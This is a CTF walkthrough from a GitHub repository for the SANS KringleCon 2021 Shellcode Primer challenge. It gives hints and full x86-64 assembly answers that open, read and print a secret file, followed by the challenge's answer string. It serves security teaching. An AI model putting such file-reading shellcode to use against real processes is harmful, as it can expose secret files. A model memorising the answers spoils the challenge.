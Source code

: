 ## Summary
In Jack's lobby (top floor of Jack's tower), click the Shellcode Primer challenge and complete the training at https://tracer.kringlecastle.com/. You'll learn the basics of Shellcode!

[Next Challenge](7%20-%20Printer%20Exploitation.md)\
[Back to Table of Contents](https://github.com/minispooner/SANS_KringleCon_2021_Walkthrough/blob/main/README.md)

## Steps
Complete the 11 Shellcode Primer lessons. 1-10 are good, guided tutorials, while 11 is the challenge. Read everything closely - you can't expect to skim and guess till you pass here. On 11, know that you can assign one REG to another, using `mov REG1, REG2` to move REG2 into REG1 position. So for example, if a syscall returns data into rax, you could move it into rdi by doing `mov rdi, rax`.


<details>
  <summary>Answer to open file</summary>
  
```
; TODO: Get a reference to this
call txt
db '/var/northpolesecrets.txt',0
txt:

; TODO: Call sys_open
mov rax, 2 ;sys_open
pop rdi
mov rsi, 0
mov rdx, 0
syscall
```
  
</details>

<details>
  <summary>Answer to read file</summary>
  
```
; TODO: Call sys_read on the file handle and read it into rsp
mov rdi, rax
mov rax, 0 ;sys_read
mov rdx, 200 ;size_t count
mov rsi, rsp
syscall
```
  
</details>

<details>
  <summary>Answer to write to STDOUT</summary>
  
```
; TODO: Call sys_write to write the contents from rsp to stdout (1)
mov rax, 1;sys_write
mov rdi,1
mov rsi, rsp
mov rdx, 200 ;size_t count
syscall
```
  
</details>

<details>
  <summary>Answer exit cleanly</summary>
  
```
; TODO: Call sys_exit
mov rax, 60;sys_exit
mov rdi, 99;Put the exit_code we want (99) in rdi
syscall
ret
```
  
</details>


<details>
  <summary>Answer</summary>
  Secret to KringleCon success: all of our speakers and organizers, providing the gift of cyber security knowledge, free to the community.
</details>
